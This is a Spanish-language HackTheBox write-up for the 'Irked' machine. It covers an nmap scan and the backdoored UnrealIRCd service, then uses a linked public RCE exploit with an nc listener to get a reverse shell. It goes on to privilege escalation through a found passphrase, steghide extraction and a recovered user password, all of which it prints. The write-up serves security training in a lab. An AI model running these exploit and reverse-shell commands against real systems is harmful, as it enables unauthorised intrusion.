

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/irked/index.html · generator: mkdocs

# Irked

-
```bash
sudo nmap -p- --open -sCV --min-rate=5000 -n 10.129.33.97 -oN nmapResult.txt
```

![](../../assets/img/Pasted_image_20260508125245.png)

Se usa un servicio antiguo llamado rpcbind -> Remote Procedure Call
- Permite que un programa ejecute funciones en otra máquina como si fueran locales.
- Actúa como una especie de guía telefónica” para servicios RPC.
- Un cliente pregunta a rpcbind ¿en qué puerto está corriendo el servicio X? y rpcbind responde:  está escuchando en el puerto Y.

- Se ve también **UnrealIRCd** ->
- Esto es MUY conocido porque en 2010 distribuyeron una versión troyanizada, el propio instalador oficial venía con un backdoor
- Es un protocolo clásico de chat en tiempo real. Se usa un servidor  como UnrealIRCd o InspIRCd y un cliente como WeeChat por ej.
Durante años fue el sistema de chat usado por hackers, comunidad, admins de linux etc

- Si entramos a la web

![](../../assets/img/Pasted_image_20260508130328.png)

Descargamos la imagen porque huele raro
No encontramos nada a priori, tendríamos que buscar un salvoconducto para más info

- Buscamos un exploit para UnrealRCD -> https://github.com/kevinpdicks/UnrealIRCD-3.2.8.1-RCE/blob/main/exploit.py

![](../../assets/img/Pasted_image_20260508132906.png)

Nos ponemos en escucha con
```bash
nc -nlvp 443
```

y probaremos el rport con las ips expuestas con nmap y vemos que funciona para el puerto *8067*
```bash
python3 exploit.py 10.129.33.97 8067 10.10.15.36 443
```

![](../../assets/img/Pasted_image_20260508132953.png)

![](../../assets/img/Pasted_image_20260508133027.png)

- Tratamos la tty
ircd

## Escalada

- En /doc/unreal32docs.tr.html ->
LpT4xqPI5
moocowsrulemyworld

- En .backup /home/djmardov/Documents/.backup vemos una pista a algo de steganografía

![](../../assets/img/Pasted_image_20260508134505.png)

UPupDOWNdownLRlrBAbaSSss

- Probamos a usarlo como salvoconducto
```bash
steghide --extract -sf irked.jpg
```

Nos descarga un archivo *pass.txt*

![](../../assets/img/Pasted_image_20260508134657.png)

Kab6h+m+bbp2J:HG

- Probamos la psw para el usuario djmardov
```bash
su djmardov
```

-> Kab6h+m+bbp2J:HG
djmardov
